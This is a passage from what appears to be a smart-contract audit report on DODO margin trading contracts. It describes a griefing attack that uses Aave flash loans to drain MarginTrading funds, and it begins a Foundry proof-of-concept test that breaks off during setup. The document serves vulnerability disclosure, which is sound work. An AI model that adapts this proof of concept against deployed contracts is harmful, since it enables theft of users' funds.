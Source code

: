 ```solidity
      premiums[vars.i] = amounts[vars.i].mul(_flashLoanPremiumTotal).div(10000);

      IAToken(aTokenAddresses[vars.i]).transferUnderlyingTo(receiverAddress, amounts[vars.i]);
    }

    require(
      vars.receiver.executeOperation(assets, amounts, premiums, msg.sender, params), // <-----------------------------------
      Errors.LP_INVALID_FLASH_LOAN_EXECUTOR_RETURN
    );
```

## Impact
There exists a risk that funds held within the `MarginTrading` contract could be entirely drained.

## Code Snippet
- https://ethereum.stackexchange.com/questions/92391/explain-griefing-attack-on-aave-flash-loan/92457#92457
- https://polygonscan.com/address/0x8dff5e27ea6b7ac08ebfdf9eb090f32ee9a30fcf#code
- https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L121
- https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L115
- https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/mock/MockLendingPool.sol#L108

## Proof of Concept
Change `msg.sender` to `receiverAddress` at line https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/mock/MockLendingPool.sol#L108 to make it like in the AAVEv2 mainnet:
```solidity
IFlashLoanReceiver(receiverAddress).executeOperation(assets, amounts, _premiums, msg.sender, params);
```
Create a file `test/marginTrading/GriefingAttack.t.sol`. 
```solidity
// SPDX-License-Identifier: Apache-2.0
pragma solidity 0.8.15;

import "../Context.t.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract GriefingAttack is Context {

    address private marginTradingUser1;
    address private _depositToken;
    address private _borrowToken;

    function setUp() public {
        contextBasic();
        approveAllToken();

        _depositToken = address(weth);
        _borrowToken = address(dai);
        faucet(address(_borrowToken), address(lendingPool), 10000 ether);
        faucetWeth(address(lendingPool), 10000 ether);
        setLendingPoolToken(MockERC20(_depositToken), dai);
        //faucetWeth(address(this), 100 ether);

        uint256 depositAmt = 100 ether;
        vm.deal(user1, depositAmt);
        bytes memory depositParams = encodeDepositParams(2, address(0), 0);
```